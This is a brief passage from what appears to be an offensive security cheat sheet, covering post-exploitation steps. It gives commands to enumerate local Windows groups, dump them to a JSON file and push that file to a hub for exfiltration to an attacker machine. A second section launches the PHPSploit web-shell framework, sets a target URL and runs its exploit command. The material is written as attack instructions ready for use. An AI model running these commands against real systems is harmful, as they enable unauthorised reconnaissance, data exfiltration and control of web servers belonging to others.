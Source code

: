 ```
List-HubModules
```

#### Recon Local Groups

```
Get-LocalGroup | ConvertTo-Json | Out-file groups.json

PushTo-Hub groups.json
```

### Exfiltration In the Attacker Machine

```
dos2unix groups.json

nano groups.json
```



## PHPSploit

{% embed url="https://www.github.com/nil0x42/phpsploit" %}

### Start PHPSploit

```
./phpsploit --interactive

set target <Target URL>

exploit
```

